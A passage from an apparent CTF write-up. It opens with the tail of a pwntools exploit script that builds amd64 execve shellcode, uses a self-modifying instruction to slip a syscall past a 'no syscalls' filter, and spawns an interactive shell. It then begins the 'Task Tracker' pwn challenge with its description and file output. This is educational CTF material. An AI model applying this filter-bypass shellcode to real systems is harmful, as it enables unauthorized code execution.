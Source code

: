 ```python
        "pop    rsi;"
        "add    rsi, rsp;"
        "push   rsi;"
        "mov    rsi, rsp;"
        "xor    edx, edx;"
        "push   0x3b;"
        "pop    rax;"
        "inc    BYTE PTR [rip];",
        arch = 'amd64', os = 'linux'
    )

    print(disasm(shellcode))
    
    a = ['0x{:02x}'.format(u8(a))[2:] for a in shellcode] # Converting shellcode to hex string
    a += ["0e", "05", "90", "90", "90"] # syscall + a few NOPs
    payload = ''.join(a)

    lg('Payload: ' + payload)
    lg('Payload length: ' + str(len(payload)))
    
    sla('Enter assembly bytecode here! (No syscalls please, tenks): ', payload)

    p.interactive()

if __name__ == "__main__":
    context.binary = exe

    if sys.argv[-1] == "remote":
        p = remote(host, port)
    else:
        p = process([exe.path])
        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    lg = lambda a : log.info(a)

    exploit(p)
```

## Task Tracker (pwn)

> To identify the imposter, Red has programmed a task tracker to keep track of all tasks completed. However, one of the imposters have sabotaged some of the code to make it vulnerable. Can you leverage on the vulnerability to get the secret intel?

[Challenge Files](https://github.com/MiloTruck/CTF-Archive/tree/master/DSO%20NUS%20CTF/Binary%20Exploitation/Task%20Tracker){: .btn .btn--primary}

**Initial Analysis**

We are provided with a 64-bit ELF executable:
```shell
$ file tasktracker
tasktracker: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=40ae7a4291500370ce2158854195477ecf9875b3, stripped
```
